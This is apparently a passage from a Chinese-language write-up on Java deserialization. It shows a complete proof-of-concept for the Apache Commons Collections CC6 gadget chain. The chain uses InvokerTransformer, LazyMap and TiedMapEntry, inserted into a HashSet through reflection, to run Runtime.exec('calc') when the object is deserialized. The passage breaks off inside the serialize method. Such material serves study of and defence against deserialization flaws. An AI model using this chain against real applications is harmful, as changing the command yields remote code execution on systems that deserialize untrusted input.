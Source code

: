 

## 最终POC

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;


public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, IllegalAccessException, NoSuchFieldException, IOException {


        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);

        TiedMapEntry tiedmap = new TiedMapEntry(map,Runtime.class);
        HashSet hashSet = new HashSet(1);
        hashSet.add("T0dis");
        Field HashSet_map =  Class.forName("java.util.HashSet").getDeclaredField("map");
        HashSet_map.setAccessible(true);
        HashMap hashSetMap = (HashMap) HashSet_map.get(hashSet);
        Field table =  Class.forName("java.util.HashMap").getDeclaredField("table");

        table.setAccessible(true);

        Object[] hashMapTable = (Object[]) table.get(hashSetMap);

        Object node = hashMapTable[0];
        if(node == null) {
            node = hashMapTable[1];
        }

        Field key =  node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node, tiedmap);

        serialize(hashSet);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
```